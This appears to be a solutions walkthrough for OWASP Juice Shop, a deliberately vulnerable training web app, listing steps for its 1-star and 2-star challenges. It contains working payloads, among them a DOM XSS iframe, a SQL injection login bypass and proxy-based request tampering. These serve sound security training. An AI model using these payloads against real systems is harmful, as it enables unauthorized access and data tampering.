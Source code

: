 ## OWASP - Juice Shop (Solutions)

### 1-star
#### Bonus Payload
- Copy and paste the payload into the search bar:

```html
<iframe width="100%" height="166" scrolling="no" frameborder="no" allow="autoplay" src="https://w.soundcloud.com/player/?url=https%3A//api.soundcloud.com/tracks/771984076&color=%23ff5500&auto_play=true&hide_related=false&show_comments=true&show_user=true&show_reposts=false&show_teaser=true"></iframe>
```

#### Confidential Document
- `http://localhost:3000/#/about`
- `http://localhost:3000/ftp/legal.md`
- `http://localhost:3000/ftp/`
- `http://localhost:3000/ftp/acquisitions.md`

#### DOM XSS
Search for ` <iframe src="javascript:alert(`xss`)">`

#### Error Handling
In login page, enter `'` for username and password.

#### Exposed Metrics
From the prometheus docs `https://prometheus.io/docs/introduction/first_steps/` we can see that we need to go to `http://localhost:3000/metrics`

#### Missing Encoding
- `http://localhost:3000/#/photo-wall`
- The cat's photo isn't appearing.
- If you click the tweet button you see that text upto the first `#` is appearing, therefore we need to encode the `#` to `%23` so that the browser doesn't interpret it as a fragment.
- Change `http://localhost:3000/assets/public/images/uploads/%F0%9F%98%BC-#zatschi-#whoneedsfourlegs-1572600969477.jpg` to `http://localhost:3000/assets/public/images/uploads/%F0%9F%98%BC-%23zatschi-%23whoneedsfourlegs-1572600969477.jpg`

### Outdated Whitelist

- Add an item to your basket and go to payment page.
- Go to sources tabs in your devtools.
- Search for `redirect` in `main-es2015.js`
- You'll find redirect URLs for pages not mentioned in the payment page such as `"./redirect?to=https://blockchain.info/address/1AbKfgvw9psQ41NbLi8kufDQTezwG8DRZm"`.
- Simple visit the redirect URL to solve the challenge.

#### Privacy Policy
- Go to `http://localhost:3000/#/privacy-security/privacy-policy`

#### Repititive Registration
- Register for a user and intercept the requests in a proxy.
- Remove the `passwordRepeat` option in the json request.

#### Score Board
Go to `http://localhost:3000/#/score-board`

#### Zero Stars
- Go to customer feedback and intercept the request.
- Change the `rating` to 0 in the json payload.

### 2-star
#### Login Admin
- Use SQL injection in the login page `'or 1=1--`.

#### Admin Section
- Goto sources `main-es2015.js` and search for admin.
- You'll find references to `administration`.
- Once logged in as admin using SQL injection, go to: `localhost:3000/#/administration`

#### Five-Star Feedback
- Go to the `administration` section and delete any five feedbacks that are present.


